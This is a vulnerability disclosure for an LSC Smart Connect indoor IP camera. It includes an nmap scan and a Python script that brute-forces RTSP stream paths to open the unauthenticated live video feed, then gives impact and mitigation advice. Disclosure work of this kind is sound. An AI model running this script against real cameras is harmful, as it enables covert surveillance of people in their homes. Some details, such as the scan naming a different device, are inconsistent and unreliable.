

## Port scan
The camera had the ip: `172.20.10.2` in this case. Lets perform an all tcp port scan and what we are working with:
```sh
nmap -p- -sV -sC -T4 172.20.10.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-09-23 17:55 CEST
Nmap scan report for 172.20.10.2
Host is up (0.033s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE    VERSION
80/tcp   open  rtsp       DoorBird video doorbell rtspd
|_rtsp-methods: OPTIONS, DESCRIBE, SETUP, TEARDOWN, PLAY, PAUSE, GET_PARAMETER, SET_PARAMETER
|_http-title: Site doesn't have a title.
|_http-cors: GET POST OPTIONS
835/tcp  open  tcpwrapped
6668/tcp open  irc?
|_irc-info: Unable to open connection
8554/tcp open  rtsp       DoorBird video doorbell rtspd
|_rtsp-methods: OPTIONS, DESCRIBE, SETUP, TEARDOWN, PLAY, PAUSE, GET_PARAMETER, SET_PARAMETER
Service Info: Device: webcam

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 922.12 seconds

```
Alright so it looks like we have 2 rtsp ports lest dig into these ports

## We notice that the port number 8554 and 80 is open 
The 8554 port is commonly used for the Real Time Streaming Protocol (RTSP). This quite intersting because when we do a quick google search about teh capitbilities we se find that we can connect with VLC Player to a RTSP stream and that gives us basically acces to the video stream, but we need to know the correct directory used for the stream and there might be authentiaction so were not there yet. Lets start to write a python script to test for different directories using the `opencv` library and trying to open a connecting with the stream.  
```py
import cv2
import argparse
import socket
import time

def bruteforce(ip_address: str, port: int, file: str) -> None:
    rtsp_ip = f"{ip_address}:{port}"

    try:
        print("Attempting to connect...")
        socket.create_connection((ip_address, port), timeout=5)
        print("Connection successful!")
    except socket.timeout:
        for remaining_time in range(5, 0, -1):
            print(f"Time out in {remaining_time}")
            time.sleep(1)
        print("Timed out")
        exit()

    with open(file, 'r') as directories:
        for directory in directories:
            directory = directory.strip()
            cap = cv2.VideoCapture(f"rtsp://{rtsp_ip}+{directory}")

            if cap.isOpened():
                print(f"Connection successful with directory: {directory}")
                break
            print(f"Connection failed with directory: {directory}")
            continue

    while True:
        ret, frame = cap.read()
        if not ret:
            print("Cannot capture frame.")
            break

        cv2.imshow("RTSP Stream", frame)

        if cv2.waitKey(1) & 0xFF == ord('q'):
            break

    cap.release()
    cv2.destroyAllWindows()
    

def main():
    parser = argparse.ArgumentParser(description="Real Time Streaming Protocol (RTSP) Bruteforce directory script")
    parser.add_argument("-ip", "--ip_address", type=str, required=True, help="the IP address")
    parser.add_argument("-p", "--port", type=int, required=True, help="the port")
    parser.add_argument("-f", "--file", type=str, required=True, help="path to rtsp directory list")
    args = parser.parse_args()

    bruteforce(args.ip_address, args.port, args.file)

if __name__ == "__main__":
    main()
```
We can run the script with `python3 exploit.py -ip 172.20.10.2 -p 8554 -f rtsp_dirs.txt` and find out the results.


So we can see that we got a video stream without any form of authentication! So no further steps are necessary to hijack the stream which is great. An attacker can find its way into a network where this camera is located and access the video stream without any form of authentiaction. 


Summary

A recently discovered vulnerability in the LSC Smart Connect Indoor IP Camera could allow unauthorized access to live camera footage if the camera is connected to an insecure network. This issue exposes users to privacy risks, as malicious actors can view the camera’s live feed without any credentials.


Vulnerability Type: Incorrect Access Control
Affected Product Code Base: Indoor IP Camera - V7.6.32
Affected Component: RTSP Protocol, Port 8554, Authentication Mechanism
Vendor: LSC Smart Connect
CVSS: 6.5 medium (CVSS:3.1/AV:A/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N)

In this article, we’ll discuss a critical vulnerability discovered in a popular IP camera that we purchased from Action. This vulnerability has been assigned the Common Vulnerabilities and Exposures (CVE) identifier CVE-2024-51362. 


Impact

If exploited, this vulnerability could allow attackers to gain unauthorized access to live video feeds from the affected camera. This could be used for various malicious purposes, including spying on individuals, monitoring private spaces, or conducting surveillance operations. The potential impact of this vulnerability is significant, as it compromises the privacy and security of users who rely on these cameras for monitoring and surveillance purposes.
Mitigation Steps
Users are advised to avoid connecting the camera to untrusted networks. Additionally, users should take the following steps to mitigate the risk of unauthorized access to the camera feed:

    Secure Your Network: Ensure that your Wi-Fi network is protected with a strong password, and avoid sharing network access with untrusted devices or individuals.
    Separate the Camera: If possible, connect the camera to a dedicated Wi-Fi network isolated from other devices. This helps contain potential security risks by limiting access to the camera’s network.
    Monitor for Updates: Keep the camera firmware updated and watch for any patches from LSC Smart Connect that may address this security flaw.


Researchers: Patrick Kuin, Twan Terstappen and Teun van der ploeg